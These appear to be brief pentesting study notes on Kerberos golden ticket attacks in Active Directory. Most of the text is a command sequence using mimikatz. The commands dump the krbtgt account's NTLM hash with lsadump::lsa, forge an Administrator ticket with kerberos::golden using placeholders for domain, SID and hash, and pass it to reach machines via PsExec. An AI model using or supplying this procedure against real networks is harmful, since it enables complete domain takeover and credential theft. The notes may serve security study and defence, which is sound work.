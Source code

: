 ## Golden Ticket Attacks Overview
- When we compromise the krbtgt account, we own the domain
- We can request access to any resource or system on the domain
- Golden tickets == complete access to every machine

### Attack
- Use mimikatz
- Set privilege to debug `privilege::debug`
- LSA dump: `lsadump::lsa /inject /name:krbtgt`
- We need krbtgt NTLM hash and domain SID
- Then we can generate golden ticket `kerberos:golden /User:Administrator /domain:<domain> /sid:<sid> /krbtgt:<hash> /id:500 /ptt`
- Pass the ticket to access any machine `PsExec64.exe \\< target ip> cmd.exe`
